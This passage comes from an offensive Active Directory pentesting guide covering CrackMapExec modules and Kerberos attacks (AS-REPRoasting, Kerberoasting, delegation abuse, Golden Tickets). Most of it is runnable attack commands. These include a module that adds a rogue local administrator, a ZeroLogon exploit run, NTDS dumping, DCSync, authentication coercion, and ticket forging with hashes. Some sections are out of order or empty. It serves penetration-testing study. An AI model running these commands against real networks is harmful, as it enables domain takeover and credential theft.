crackmapexec --verbose smb DC_IP -u user -p pass -M shadowcoerce
6.21 Creating Custom CME Modules
CME modules are Python classes that follow a standard template. Each module defines: name, description, supported_protocols, opsec_safe, multiple_hosts, and methods options(), on_login() (runs for any authenticated user), and on_admin_login() (runs only when admin access is confirmed).
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
class CMEModule:
name = 'createadmin'
description = "Create a new administrator account"
supported_protocols = ['smb']
opsec_safe = True
multiple_hosts = True
def options(self, context, module_options):
'''
USER Choose a username. Default: plaintext
PASS Choose a password. Default: HackTheBoxCME1337!
'''
self.user = module_options.get('USER', 'plaintext')
self.password = module_options.get('PASS', 'HackTheBoxCME1337!')
def on_admin_login(self, context, connection):
command = f'(net user {self.user} "{self.password}" /add /Y && net localgroup administrators {self.user} /add)'
context.log.info(f'Executing: {command}')
p = connection.execute(command, True)
context.log.highlight(p)Place modules in ./CrackMapExec/cme/modules/. Key methods for output: context.log.info(), context.log.highlight(), context.log.error(). Use connection.execute(command, True) for command execution.
# Run custom module
crackmapexec smb DC_IP -u [user] -p [password] -M createadmin
crackmapexec smb DC_IP -u [user] -p [password] -M createadmin -o USER=htb PASS=Newpassword!Methodology
-
crackmapexec smb TARGET -u admin -p pass -M module_name --options
6.22 Additional CME Functionality
Beyond enumeration and exploitation, CME includes audit mode for safe credential testing, IPv6 support for dual-stack environments, and progress tracking for large-scale operations.
6.22.1 Audit Mode
Audit mode replaces passwords/hashes in output with a chosen character, useful for screenshots in reports:
# Edit ~/.cme/cme.conf
# [CME]
# audit_mode = #
# Save password in a file to avoid showing it in commands
crackmapexec smb TARGET -u [user] -p robert_password.txt6.22.2 IPv6 Support
CME supports IPv6 targets, which may be less monitored:
# Discover IPv6 addresses
crackmapexec smb TARGET -u [user] -p pass -M get_netconnections
# Attack over IPv6
crackmapexec smb dead:beef::8c8a:5209:5876:537d -u [user] -p pass -x "ipconfig"6.22.3 Completion Percentage
Press Enter during a scan to see progress and remaining hosts count.
Methodology
-
crackmapexec smb TARGET -u user -p pass -M get_netconnections
6.23 Kerberos Authentication
CME supports Kerberos authentication for SMB, LDAP, and MSSQL protocols. This provides opsec advantages since Kerberos traffic blends with normal domain operations. Two methods: username+password with --kerberos flag, or ccache file with --use-kcache.
6.23.1 Username and Password
# Ensure FQDN is in /etc/hosts
echo "[target-ip] [dc-fqdn] dc01 [domain-short] [domain]" | sudo tee -a /etc/hosts
# Authenticate via Kerberos
crackmapexec smb [target-ip] -u [user] -p [password] --kerberos --shares6.23.2 User Enumeration via Kerberos
CME can identify valid usernames without causing account lockouts by interpreting KDC error responses:
crackmapexec smb DC_IP -u account_not_exist [user] [user] -p OtherPassword --kerberos| KDC Response | Meaning |
|---|---|
KDC_ERR_C_PRINCIPAL_UNKNOWN | Username does not exist |
KDC_ERR_PREAUTH_FAILED | Username exists, wrong password |
| "account vulnerable to asreproast attack" | Username exists, pre-auth disabled |
6.23.3 AES Key Authentication
Using AES-256 keys makes traffic indistinguishable from normal Kerberos (opsec advantage over RC4/NTLM):
# Dump AES keys with secretsdump
secretsdump.py [domain]/[user]:[password]@DC_IP
# Authenticate with AES256 key
crackmapexec smb DC_IP -u [user] --aesKey 77da7057b42509a1d086f4f58e7252ad673b1940be2f741c496c577d10e4df766.23.4 CCache File Authentication
Methodology
-
echo "DC_IP dc01.domain.com dc01 domain domain.com" | sudo tee -a /etc/hosts -
crackmapexec smb DC_IP -u userlist.txt -p FakePassword --kerberos -
export KRB5CCNAME=ticket.ccache && crackmapexec smb DC_IP --use-kcache --shares -
crackmapexec smb DC_IP -u user --aesKey AES256_KEY
6.24 Mastering the CMEDB
CME automatically stores all credentials, hosts, shares, and groups in SQLite databases at ~/.cme/workspaces/default/ (one DB per protocol). The cmedb CLI provides interactive access.
6.24.1 Workspaces
# Launch cmedb
cmedb
# Create workspace
cmedb (default) > workspace create [domain-short]
# List and switch workspaces
cmedb ([domain-short]) > workspace list
cmedb ([domain-short]) > workspace default6.24.2 Credential Management
# Access SMB protocol database
cmedb (default) > proto smb
# View all credentials
cmedb (default)(smb) > creds
# Filter by username
cmedb (default)(smb) > creds [user]
# View only hashes or plaintext
cmedb (default)(smb) > creds hash
cmedb (default)(smb) > creds plaintext
# Use credential ID with CME
crackmapexec smb DC_IP -id 4 -x whoami
# Add/remove credentials
cmedb (default)(smb) > creds add [DOMAIN] john Password3
cmedb (default)(smb) > creds remove 456.24.3 Hosts and Shares
# View all hosts
cmedb (default)(smb) > hosts
# Filter by hostname
cmedb (default)(smb) > hosts ms01
# View all enumerated shares
cmedb (default)(smb) > shares6.24.4 Import and Export
# Import from Empire
cmedb (default)(smb) > import empire
# Export data as CSV
cmedb (default)(smb) > export creds detailed detailed_creds.csv
cmedb (default)(smb) > export shares detailed detailed_shares.csv
cmedb (default)(smb) > export local_admins detailed detailed_local_admins.csv| Protocol | Available cmedb Options |
|---|---|
| SMB | creds, hosts, shares, groups, export, import |
| MSSQL | creds, hosts, export, import |
| LDAP/WinRM/RDP/FTP/SSH | export, import |
Operational security note: The cmedb contains highly sensitive information (plaintext passwords, NTLM hashes, domain admin credentials). Secure the ~/.cme directory with restrictive permissions and encrypt the disk. Delete or transfer the database securely after engagements.
Methodology
-
cmedb workspace create client_name -
cmedb (workspace)(smb) > creds cmedb (workspace)(smb) > hosts cmedb (workspace)(smb) > shares -
crackmapexec smb TARGET -id CRED_ID --shares -
cmedb (workspace)(smb) > export creds detailed creds_export.csv
7. Kerberos Attacks
7.1 Kerberos Overview and Authentication Process
Kerberos is a stateless, ticket-based authentication protocol that operates on port 88 and has been the default authentication protocol for Active Directory domain accounts since Windows 2000. It is a zero-knowledge proof protocol: the user's password is never transmitted over the network. Instead, shared secret keys and a ticketing mechanism prove identity and authorize access to services.
There are three entities in every Kerberos transaction: the user (client), the service (application server), and the Key Distribution Center (KDC), which runs on every Domain Controller and knows every account's secret key.


7.1.1 Why Kerberos Over NTLM
Before Kerberos, authentication happened over SMB/NTLM. The user's NTLM hash was stored in memory upon authentication, meaning a compromised host exposed the hash for Pass-the-Hash attacks against any resource the user could access. Kerberos tickets, by contrast, do not contain a password and are scoped to a specific service. This is why the Double Hop Problem exists with WinRM; Kerberos credentials are specific to each target service, so there is no password hash to silently forward.
If a machine with active Kerberos sessions is compromised, a Pass-the-Ticket attack is possible, but the attacker is limited to the resources the victim already authenticated against, and tickets have a finite lifetime.
7.1.2 Tickets and Ticket Protection
Kerberos authentication has three phases, each with a request and response:
# Exploit ZeroLogon
git clone https://github.com/dirkjanm/CVE-2020-1472 -q
cd CVE-2020-1472/
proxychains4 -q python3 cve-2020-1472-exploit.py dc01 [dc-ip]
# Dump NTDS with machine account
proxychains4 -q crackmapexec smb [dc-ip] -u 'DC01$' -p '' --ntds| Phase | Request | Response | Purpose |
|---|---|---|---|
| Authentication Service (AS) | AS-REQ | AS-REP | Client proves identity, receives TGT |
| Ticket-Granting Service (TGS) | TGS-REQ | TGS-REP | Client presents TGT, receives Service Ticket (ST/TGS ticket) |
| Application Request (AP) | AP-REQ | AP-REP | Client presents ST to the service for access |
Ticket protection:
7.1.3 AS Exchange (TGT Request)
AS-REQ: The client sends their username in cleartext and an authenticator (the current timestamp encrypted with their secret key). The KDC looks up the user, retrieves their key, and attempts to decrypt the authenticator. Success means the user proved their identity. This step is called pre-authentication and is mandatory by default, though an administrator can disable it (setting the DONT_REQ_PREAUTH flag).
AS-REP: The KDC generates a temporary session key for future client-KDC exchanges and sends back two items:
- The TGT: encrypted with the KDC's key, containing the user's information (PAC) and a copy of the session key.
- The session key: encrypted with the user's key so the client can extract it.
7.1.4 TGS Exchange (Service Ticket Request)
TGS-REQ: The client sends three items: the name of the desired service (SPN), the TGT (still encrypted with the KDC key), and an authenticator encrypted with the session key.
TGS-REP: The KDC decrypts the TGT to extract the session key, validates the authenticator, then generates a new session key for client-to-service communication. The response contains a Service Ticket (TGS ticket) encrypted with the service account's key, embedding a copy of the user's PAC and the new session key.
7.1.5 AP Exchange (Application Request)
AP-REQ: The client sends the Service Ticket and an authenticator encrypted with the user/service session key. The service decrypts the ticket with its own key, extracts the session key, validates the authenticator, then reads the PAC to decide whether to grant access.
AP-REP: If successful, the service responds by encrypting a timestamp with the session key, confirming its identity to the client.
7.1.6 Kerberos Attacks Overview
| Attack Category | Attacks | Root Cause |
|---|---|---|
| Ticket Request Attacks | AS-REPRoasting, Kerberoasting | Offline cracking of ticket data encrypted with user/service passwords |
| Delegation Attacks | Unconstrained, Constrained, RBCD | Misconfigured delegation allowing user impersonation |
| Ticket Forging | Golden Ticket, Silver Ticket | Compromise of krbtgt or service account hash allows forging tickets |
| Recon / Spraying | Kerbrute user enum, password spraying | KDC error messages reveal valid usernames; AS-REQ tests passwords |
Methodology
7.2 AS-REPRoasting
AS-REPRoasting targets accounts with Kerberos pre-authentication disabled (DONT_REQ_PREAUTH). When pre-auth is disabled, anyone can request an AS-REP for that account without proving identity. The AS-REP contains the session key encrypted with the user's password-derived key, which can be cracked offline.

Root cause: The DONT_REQ_PREAUTH flag (UAC value 4194304) disables the timestamp verification step in the AS exchange. Without this check, the KDC returns an encrypted AS-REP to any requester. The session key portion is encrypted with the user's password hash (RC4/AES), making it crackable with tools like Hashcat (mode 18200).
Prerequisites: Only the target username is needed. No domain credentials are required if a username list is available. This is one of the few Kerberos attacks that can be performed without prior authentication.
In offensive workflows, AS-REPRoasting is most useful when it supports persistence or controlled privilege escalation:
7.2.1 AS-REPRoasting from Windows
Enumeration with PowerView:
Import-Module .\PowerView.ps1
Get-DomainUser -UACFilter DONT_REQ_PREAUTHEnumeration with Rubeus:
# Scan for accounts without pre-auth
.\Rubeus.exe asreproast /format:hashcat
# Also available via preauthscan action
.\Rubeus.exe preauthscanPerforming the attack with Rubeus:
.\Rubeus.exe asreproast /user:[user] /domain:[domain] /dc:[dc-fqdn] /nowrap /outfile:hashes.txtCracking with Hashcat (mode 18200):
hashcat.exe -m 18200 C:\Tools\hashes.txt C:\Tools\rockyou.txt -OTargeted AS-REPRoasting (setting the flag with PowerView):
Import-Module .\PowerView.ps1
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose7.2.2 AS-REPRoasting from Linux
When working with Kerberos on Linux, configure /etc/hosts with DNS entries for the target domain and Domain Controller before attacking.
Enumerate AS-REPRoastable users (authenticated):
GetNPUsers.py [domain]/[user]Request hashes in Hashcat format:
GetNPUsers.py [domain]/[user] -requestFind vulnerable accounts without authentication (username list only):
GetNPUsers.py [DOMAIN]/ -dc-ip [target-ip] -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-passCrack hashes from Linux:
hashcat -m 18200 hashes.txt rockyou.txt| Tool | Platform | Auth Required | Command |
|---|---|---|---|
| Rubeus | Windows | No (for specific user) | Rubeus.exe asreproast /user:TARGET /format:hashcat |
| PowerView | Windows | Yes (domain context) | Get-DomainUser -UACFilter DONT_REQ_PREAUTH |
| GetNPUsers.py | Linux | No (with username list) | GetNPUsers.py DOMAIN/ -usersfile users.txt -no-pass |
Methodology
-
Get-DomainUser -UACFilter DONT_REQ_PREAUTH -
GetNPUsers.py DOMAIN/ -dc-ip DC_IP -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass -
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt -
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt -
Set-DomainObject -Identity TARGET -XOR @{useraccountcontrol=4194304} -Verbose
Remediation
7.3 Kerberoasting
Kerberoasting attacks service accounts by requesting Service Tickets (TGS tickets) for services registered with a Service Principal Name (SPN) and then cracking the ticket offline. It requires prior authentication to the domain (any valid domain user or a SYSTEM shell on a domain-joined host), with one exception involving accounts without pre-authentication.
Root cause: When a user requests a TGS ticket, the KDC encrypts the Service Ticket with the service account's password hash. Any authenticated domain user can request a Service Ticket for any SPN. If the service runs under a user account (not a machine account), the password is human-chosen and potentially weak. Machine accounts (COMPUTERNAME$) have 120-character random passwords, making them impractical to crack.
Encryption considerations: Service tickets using RC4 encryption ($krb5tgs$23$ prefix) are significantly easier to crack than AES-128 (type 17, $krb5tgs$17$) or AES-256 (type 18, $krb5tgs$18$) tickets. The /tgtdeleg flag in Rubeus can force RC4 encryption in domains where RC4 remains enabled as a failsafe.
7.3.1 Kerberoasting from Windows
Manual SPN detection with LDAP filter:
# LDAP filter for user accounts with SPNs
(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))Manual PowerShell script to find SPN accounts:
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results) {
$userEntry = $result.GetDirectoryEntry()
Write-host "User: " $userEntry.name "(" $userEntry.distinguishedName ")"
foreach($SPN in $userEntry.servicePrincipalName) { $SPN }
Write-host ""
}Built-in Windows binary:
setspn -Q */*Enumerate SPNs with PowerView:
Import-Module .\PowerView.ps1
Get-DomainUser -SPNKerberoasting with PowerView:
Import-Module .\PowerView.ps1
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
cat .\tgs.csvKerberoasting with Invoke-Kerberoast:
Import-Module .\PowerView.ps1
Invoke-KerberoastKerberoasting with Rubeus:
# Kerberoast all users
Rubeus.exe kerberoast /nowrap
# Kerberoast specific user and save to file
Rubeus.exe kerberoast /user:[spn-user] /outfile:hashes.txt
# Filter by password set date range
Rubeus.exe kerberoast /pwdsetafter:01/01/2020 /pwdsetbefore:12/31/2020
# Show statistics without requesting tickets
Rubeus.exe kerberoast /stats
# Force RC4 encryption (downgrade from AES)
Rubeus.exe kerberoast /tgtdeleg /nowrapKerberoasting without an account password (using a DONT_REQ_PREAUTH account):
If you know an account with pre-auth disabled and a target SPN, you can Kerberoast without any domain credentials. The technique modifies the AS-REQ to request a TGS ticket instead of just a TGT.
# Create a sacrificial process without domain context
Rubeus.exe createnetonly /program:cmd.exe /show
# From the new cmd window -- this will fail without /nopreauth:
Rubeus.exe kerberoast
# Error: Current security context is not associated with an Active Directory domain
# With /nopreauth, specify the pre-auth-disabled user and target SPN:
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:[domain] /spn:MSSQLSvc/SQL01:1433 /nowrap
# Use /spns:listofspn.txt to try multiple SPNs7.3.2 Kerberoasting from Linux
Enumerate Kerberoastable accounts:
GetUserSPNs.py [domain]/[user]Request TGS hashes:
GetUserSPNs.py [domain]/[user] -request7.3.3 Hash Cracking
# Hashcat mode 13100 for Kerberos 5 TGS-REP etype 23
hashcat -m 13100 hashes.txt rockyou.txt| Hash Type | Hashcat Mode | Prefix | Difficulty |
|---|---|---|---|
| AS-REP (AS-REPRoasting) | 18200 | $krb5asrep$23$ | Moderate |
| TGS-REP RC4 (Kerberoasting) | 13100 | $krb5tgs$23$ | Moderate |
| TGS-REP AES-128 | 19600 | $krb5tgs$17$ | Hard |
| TGS-REP AES-256 | 19700 | $krb5tgs$18$ | Very Hard |
Methodology
-
Get-DomainUser -SPN | select samaccountname,serviceprincipalname -
GetUserSPNs.py DOMAIN/user -request -
Rubeus.exe kerberoast /nowrap /outfile:tgs_hashes.txt -
Rubeus.exe kerberoast /tgtdeleg /nowrap -
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt -
Rubeus.exe kerberoast /nopreauth:USER /domain:DOMAIN /spn:SPN /nowrap
Remediation
7.4 Kerberos Delegation
Kerberos delegation enables a service to impersonate a user when accessing another service. For example, a web application authenticates users and then accesses a backend database on their behalf, applying the user's permissions rather than the service account's. Delegation comes in three types: Unconstrained, Constrained, and Resource-Based Constrained Delegation (RBCD).
7.4.1 S4U2Proxy and S4U2Self Extensions
S4U2Proxy (Service for User to Proxy) is the extension used for constrained delegation. The service account makes a TGS request with two modified fields: the additional tickets field contains a copy of the user's TGS ticket, and the cname-in-addl-tkt flag tells the KDC to use the user's identity from the embedded ticket rather than the service account's identity.
S4U2Self (Service for User to Self) solves the problem of a user authenticating via NTLM (no Kerberos ticket available). This extension allows a service to obtain a forwardable TGS ticket to itself on behalf of any arbitrary user. Once obtained, this ticket can be used in a subsequent S4U2Proxy request. This is called protocol transition.
Protocol transition is controlled by the delegation configuration:
- "Use Kerberos only": S4U2Self is disabled; the service cannot perform protocol transition.
- "Use any authentication protocol": S4U2Self is enabled; the service can create a TGS ticket for an arbitrary user, making this very dangerous.
| Delegation Type | Introduced | Scope | Key Attribute | Risk Level |
|---|---|---|---|---|
| Unconstrained | Windows 2000 | Any service | TRUSTED_FOR_DELEGATION UAC flag | Very High |
| Constrained | Windows Server 2003 | Specific SPNs only | msDS-AllowedToDelegateTo | High |
| RBCD | Windows Server 2012 | Defined by target resource | msDS-AllowedToActOnBehalfOfOtherIdentity | High |
Methodology
-
findDelegation.py DOMAIN/user:password -
Get-DomainComputer -Unconstrained | select samaccountname -
Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
7.5 Unconstrained Delegation
Unconstrained delegation allows a service to impersonate a user when accessing any other service. When a user authenticates to a host with unconstrained delegation enabled, the Domain Controller embeds a copy of the user's TGT inside the TGS ticket. The service can extract this TGT and use it to request TGS tickets for any service as the user.
Root cause: The TRUSTED_FOR_DELEGATION flag in UAC causes the KDC to include the user's TGT in the Service Ticket. Only accounts with SeEnableDelegationPrivilege (typically Domain Admins) can set this flag. If a host with this flag is compromised, all cached TGTs from users who authenticated to it are exposed.
7.5.1 Unconstrained Delegation - Computers (Windows)
Attack Scenario 1: Waiting for Privileged User Authentication
If a compromised server has unconstrained delegation and a Domain Admin logs in, their TGT can be extracted from memory.
# Monitor for incoming TGTs on the compromised host (requires local admin)
.\Rubeus.exe monitor /interval:5 /nowrapWhen a privileged user (e.g., a Domain Admin) connects, Rubeus captures their TGT in base64. Use this TGT to request a TGS for any service:
# Request a CIFS TGS ticket using the captured TGT and inject into memory
.\Rubeus.exe asktgs /ticket:doIFmTCCBZW...base64... /service:cifs/dc01.[DOMAIN].local /ptt
# Alternative: renew the TGT to get a fresh one
.\Rubeus.exe renew /ticket:doIFmTCCBZW...base64... /ptt
# Access the DC file system
dir \\[dc-fqdn]\c$Attack Scenario 2: Leveraging the Printer Bug (SpoolSample)
The Printer Bug is a flaw in the MS-RPRN protocol. Any domain user can coerce a server (including Domain Controllers) to authenticate back to an arbitrary host by calling RpcRemoteFindFirstPrinterChangeNotificationEx. Combined with unconstrained delegation, this forces the DC to send its TGT to the compromised host.
# Step 1: Start Rubeus monitor on the compromised host with unconstrained delegation (SQL01)
.\Rubeus.exe monitor /interval:5 /nowrap
# Step 2: Trigger the Printer Bug from the same host
.\SpoolSample.exe [dc-fqdn] [sql-fqdn]
# Step 3: Rubeus captures DC01$ TGT. Renew and inject it:
.\Rubeus.exe renew /ticket:doIFZjCCBWK...base64... /ptt
# Step 4: Perform DCSync using Mimikatz
mimikatz.exe
mimikatz # lsadump::dcsync /user:[user]
# Step 5: Use the captured NTLM hash to request a TGT as that user
.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:[user] /ptt
# Step 6: Access the DC
dir \\[dc-fqdn]\c$7.5.2 Unconstrained Delegation - Users (Linux)
User accounts can also have unconstrained delegation. Exploiting them is more complex because you need to create a DNS record, set an SPN, and intercept the TGT with krbrelayx.
Enumerate users with unconstrained delegation:
Import-Module .\PowerView.ps1
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"Full attack chain (Linux, using krbrelayx):
# 1. Create a fake DNS record pointing to your attack machine
python dnstool.py -u [domain]\\[user] -p [password] \
-r roguecomputer.[domain] -d [attacker-ip] --action add [target-ip]
# 2. Verify DNS record
nslookup roguecomputer.[domain] [dc-fqdn]
# 3. Add CIFS SPN to the compromised user account
python addspn.py -u [domain]\\[user] -p [password] \
--target-type samname -t [spn-user] -s CIFS/roguecomputer.[domain] [dc-fqdn]
# 4. Start krbrelayx listener (provide compromised account's NT hash)
sudo python krbrelayx.py -hashes :[ntlm-hash]
# 5. Trigger the Printer Bug to coerce DC01 to authenticate to our fake host
python3 printerbug.py [domain]/[user]:[password]@[target-ip] \
roguecomputer.[domain]
# Alternative:
python dementor.py -u [user] -p [password] -d [domain] \
roguecomputer.[domain] [dc-fqdn]
# 6. krbrelayx captures DC01$ TGT and saves it to disk
# 7. Use the ticket for DCSync
export KRB5CCNAME=./DC01\$@[domain]_krbtgt@[domain].ccache
secretsdump.py -k -no-pass [dc-fqdn]
# Cleanup: unset KRB5CCNAME
unset KRB5CCNAMEMethodology
-
Get-DomainComputer -Unconstrained | select samaccountname,dnshostname -
.\Rubeus.exe monitor /interval:5 /nowrap -
.\SpoolSample.exe dc01.domain.local compromised-host.domain.local -
.\Rubeus.exe renew /ticket:BASE64_TGT /ptt
Remediation
7.6 Constrained Delegation
Constrained delegation restricts which services a service account can impersonate users against. The allowed SPNs are stored in the msDS-AllowedToDelegateTo attribute. Unlike unconstrained delegation, the user's TGT is not embedded in the TGS ticket. Instead, the service uses the S4U2Proxy extension to request a new TGS on behalf of the user for only the listed SPNs.
Two key weaknesses enable abuse:
1. Service name is not protected: The SPN in the AP-REQ is stored in the unencrypted portion of the Service Ticket. An attacker can modify the service name (e.g., change www/WS01 to CIFS/WS01) without invalidating the ticket, because the encrypted portion (containing PAC and session key) is tied to the service account's key, not the SPN string. If the target machine runs multiple services (CIFS, HTTP, LDAP, TERMSRV, etc.) under the same machine account, all are accessible.
2. Protocol transition (S4U2Self): If "Use any authentication protocol" is enabled (TRUSTED_TO_AUTH_FOR_DELEGATION), the service can use S4U2Self to obtain a TGS for any arbitrary user without waiting for that user to actually authenticate. This eliminates the need to wait for a victim to connect.
7.6.1 Constrained Delegation from Windows
Enumerate with PowerView:
Import-Module .\PowerView.ps1
Get-DomainComputer -TrustedToAuthLook for TRUSTED_TO_AUTH_FOR_DELEGATION in useraccountcontrol and the msds-allowedtodelegateto attribute showing allowed SPNs.
Get the machine account's NTLM hash with Mimikatz:
.\mimikatz.exe privilege::debug sekurlsa::msv exitPerform the S4U attack with Rubeus:
# /impersonateuser: the user to impersonate (e.g., Administrator)
# /msdsspn: the allowed SPN from msDS-AllowedToDelegateTo
# /altservice: the actual service you want to access (SPN modification)
# /user: the account with constrained delegation
# /rc4: the account's NTLM hash
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.[domain] /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /pttRubeus performs three steps: (1) requests a TGT as DMZ01$, (2) S4U2Self to get a TGS as Administrator to itself, (3) S4U2Proxy to get a TGS for the target SPN, then modifies the SPN to HTTP.
# Verify the ticket
klist
# Use the ticket for remote access (WinRM in this case)
Enter-PSSession ws01.[domain]7.6.2 Constrained Delegation from Linux
Enumerate delegation:
findDelegation.py [domain]/[user]:[password]Output columns show the delegation type: Unconstrained, Constrained, or Constrained w/ Protocol Transition.
Perform the S4U attack with getST.py:
# Request a TGS as Administrator for the allowed SPN
getST.py -spn TERMSRV/DC01 '[domain]/[user]:[password]' -impersonate Administrator
# Export the ticket and use it
export KRB5CCNAME=./Administrator.ccache
# psexec.py will modify the SPN on the fly (TERMSRV -> CIFS)
psexec.py -k -no-pass [domain]/administrator@[dc-hostname] -debugThe -debug output shows psexec.py looking for a CIFS ticket, finding only the TERMSRV ticket, and changing the SPN on the fly to gain a shell.
Methodology
-
Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto,useraccountcontrol -
findDelegation.py DOMAIN/user:pass -
mimikatz.exe "privilege::debug" "sekurlsa::msv" exit -
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:SPN /altservice:CIFS /user:ACCOUNT$ /rc4:HASH /ptt -
getST.py -spn SPN 'DOMAIN/user:pass' -impersonate Administrator
Remediation
7.7 Resource-Based Constrained Delegation (RBCD)
RBCD reverses the delegation model. Instead of configuring delegation on the front-end service (as with constrained delegation), the back-end resource specifies which services are trusted to delegate to it. The trusted list is stored in the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the target computer object.
Root cause / why it is abusable: Unlike constrained delegation (which requires SeEnableDelegationPrivilege to configure), RBCD can be configured by any account with write access to the target computer object. Common write permissions include GenericWrite, GenericAll, WriteProperty, or WriteDACL. Additionally, by default, ms-DS-MachineAccountQuota allows any authenticated user to create up to 10 machine accounts, providing a controlled SPN-bearing object.
Prerequisites:
7.7.1 RBCD from Windows
Step 1: Enumerate RBCD opportunities (find users with write access to computers):
Import-Module C:\Tools\PowerView.ps1
$computers = Get-DomainComputer
$users = Get-DomainUser
$accessRights = "GenericWrite","GenericAll","WriteProperty","WriteDacl"
foreach ($computer in $computers) {
$acl = Get-ObjectAcl -SamAccountName $computer.SamAccountName -ResolveGUIDs
foreach ($user in $users) {
$hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.ObjectSID} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}
if ($hasAccess) {
Write-Output "$($user.SamAccountName) has the required access rights on $($computer.Name)"
}
}
}Step 2: Create a fake computer account with PowerMad:
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount [DOMAIN] -Password $(ConvertTo-SecureString "Hackthebox123+!" -AsPlainText -Force)Step 3: Add the fake computer to the target's trusted list:
Import-Module .\PowerView.ps1
$ComputerSid = Get-DomainComputer [DOMAIN] -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$credentials = New-Object System.Management.Automation.PSCredential "[DOMAIN]\[user]", (ConvertTo-SecureString "[password]" -AsPlainText -Force)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -VerboseStep 4: Get the fake computer's NTLM hash:
.\Rubeus.exe hash /password:Hackthebox123+! /user:[DOMAIN]$ /domain:[domain]
# rc4_hmac: CF767C9A9C529361F108AA67BF1B3695Step 5: S4U attack to impersonate Administrator:
.\Rubeus.exe s4u /user:[DOMAIN]$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/[dc-fqdn] /ptt
# Can also use /altservice to include additional services:
# /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrmStep 6: Access the target:
klist
ls \\[dc-fqdn]\c$Cleanup; clear the RBCD attribute:
Import-Module .\PowerView.ps1
$credentials = New-Object System.Management.Automation.PSCredential "[DOMAIN]\[user]", (ConvertTo-SecureString "[password]" -AsPlainText -Force)
Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose7.7.2 RBCD from Linux
Methodology
-
Get-ObjectAcl -SamAccountName DC01$ -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteProperty|WriteDacl"} -
addcomputer.py -computer-name 'FAKEPC$' -computer-pass 'P@ssw0rd!' -dc-ip DC_IP DOMAIN/user -
getST.py -spn cifs/TARGET.DOMAIN -impersonate Administrator -dc-ip DC_IP DOMAIN/FAKEPC$:'P@ssw0rd!'
Remediation
# Step 1: Create a fake computer account
addcomputer.py -computer-name '[DOMAIN]$' -computer-pass 'Hackthebox123+!' \
-dc-ip [target-ip] [domain]/[user]
# Step 2: Add the fake computer to the target's trusted list
python3 rbcd.py -dc-ip [target-ip] -t DC01 -f [DOMAIN] \
[domain-short]\\[user]:[password]
# Step 3: Request a TGS as Administrator via S4U
getST.py -spn cifs/DC01.[domain] -impersonate Administrator \
-dc-ip [target-ip] [domain]/[DOMAIN]:'Hackthebox123+!'
# Step 4: Use the ticket
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass [dc-fqdn]- Restrict who has write permissions (
GenericWrite,GenericAll,WriteProperty,WriteDACL) on computer objects. - Reduce
ms-DS-MachineAccountQuotafrom 10 to 0 to prevent unprivileged users from creating machine accounts. - Monitor changes to the
msDS-AllowedToActOnBehalfOfOtherIdentityattribute. - Place sensitive accounts in the Protected Users group.
- Set the "Account is sensitive and cannot be delegated" flag on privileged accounts.
7.8 Golden Ticket
A Golden Ticket is a forged TGT created using the krbtgt account's NTLM hash. Because the KDC encrypts all TGTs with the krbtgt key, possessing this hash allows an attacker to forge a TGT with arbitrary PAC contents; any username (even non-existent), any group memberships (including Domain Admins, Enterprise Admins), and a very long lifetime (Mimikatz defaults to 10 years).
Root cause: The TGT's authenticity relies solely on being encrypted with the krbtgt key. The KDC does not validate the PAC contents against the directory when a TGT is presented for a TGS request. If the attacker knows the krbtgt hash, they can create any identity.
Why it is dangerous for persistence:
Requirements:
| # | Requirement | How to Obtain |
|---|---|---|
| 1 | Domain Name | Known from enumeration |
| 2 | Domain SID | Get-DomainSID or lookupsid.py |
| 3 | Username to impersonate | Choose (e.g., Administrator, RID 500) |
| 4 | krbtgt NTLM hash | DCSync (lsadump::dcsync /user:krbtgt) or NTDS.DIT extraction |
7.8.1 Golden Ticket from Windows
Using a sacrificial process for PSExec:
# Save the ticket to a file
mimikatz.exe "kerberos::golden /domain:[domain] /user:Administrator /sid:[domain-sid] /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:[sql-fqdn] /service:cifs /ticket:sql01.kirbi" exit
# Create a sacrificial process
Rubeus.exe createnetonly /program:cmd.exe /show
# In the new cmd window, import the ticket
Rubeus.exe ptt /ticket:sql01.kirbi
# Use PSExec in the new window
PSExec.exe -accepteula \\[sql-fqdn] cmd7.9.2 Silver Ticket from Linux
